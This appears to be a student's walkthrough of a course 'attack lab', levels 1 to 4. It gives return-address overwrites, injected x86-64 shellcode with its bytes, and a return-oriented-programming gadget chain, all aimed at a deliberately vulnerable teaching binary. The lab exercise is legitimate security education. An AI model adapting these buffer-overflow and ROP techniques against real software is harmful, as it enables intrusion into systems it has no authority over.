 The answer bytes can be found in `./answer/<lv>.txt`.

## Lv 1
Overwrite `0x401976`(the real ret addr) with `0x4017c0`(the func `touch1` addr). 

The address can be examined with `x 0x28+$rsp` when the program is inside the function `getbuf`.

## Lv 2

Use gdb to inspect the following address:
- the address of `cookie`: `0x6044e4`
- the address of original ret address: `0x5561dca0`
- address of `touch2`: `0x4017ec`

Then we need a piece of injection code to excute the call to `touch2`. The injection code should start from the bottom of the memory space for `buf`, with a sequence of `nop`. Then it comes to the setting of the argument and ret address for calling `touch2`. 

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Then set the address for calling `<touch2>`: [`0x5561dc98`, +8] = `0x4017ec0000000000`, where is the top of the memory space for `buf`.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 98 dc 61 55 	mov    $0x5561dc98,%rsp
   8:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
   f:	48 8b bf e4 44 60 00 	mov    0x6044e4(%rdi),%rdi
  16:	c3                   	ret
```

The stack should be like:
```
    addr of original ret -> addr of injection (0x5561dc78)
0x5561dca0 ^^^
buf:
    addr of touch2 (0x4017ec)
0x5561dc98 ^^^
injection:
    ret
    movq 0x6044e4(%rdi), %rdi
    movq $0, %rdi
    movq $0x5561dc98, %rsp
    nop...
0x5561dc78^^^
```

## Lv 3

Similar to Lv2:
- the value of `cookie`: `0x59b997fa`
- the corresponding little-endian value for the string `'59b997fa'`: `0x6166373939623935`
- the address of original ret address: `0x5561dca0`
- address of `touch3`: `0x4018fa`

Firstly overwrite the original ret address with `<injection>`'s address: [`0x5561dca0`, +4] = `0x5561dc78`, which is the bottom of the memory space for `buf`.

Now we define the place start from the bottom of the memory space for `buf` (`0x5561dc78`) as the new start of stack.

Then the injection code:

```asm
0000000000000000 <injection>:
   0:	90                   	nop
   1:	48 c7 c4 78 dc 61 55 	mov    $0x5561dc78,%rsp
   8:	48 bf 35 39 62 39 39 	movabs $0x6166373939623935,%rdi
   f:	37 66 61 
  12:	6a 00                	push   $0x0
  14:	57                   	push   %rdi
  15:	48 89 e7             	mov    %rsp,%rdi
  18:	48 c7 c0 fa 18 40 00 	mov    $0x4018fa,%rax
  1f:	50                   	push   %rax
  20:	c3                   	ret
```

## Lv 4

const:
- cookie value: `0x59b997fa`
- touch2: `0x4017ec`

gadget:
- popq %rax : `0x4019cc`
- movq %rax, %rdi: `0x4019c5`

stack:
```asm
# [any byte] * 0x28
addr: 0x4019cc
0x59b997fa
addr: 0x4019c5
addr: 0x4017ec
```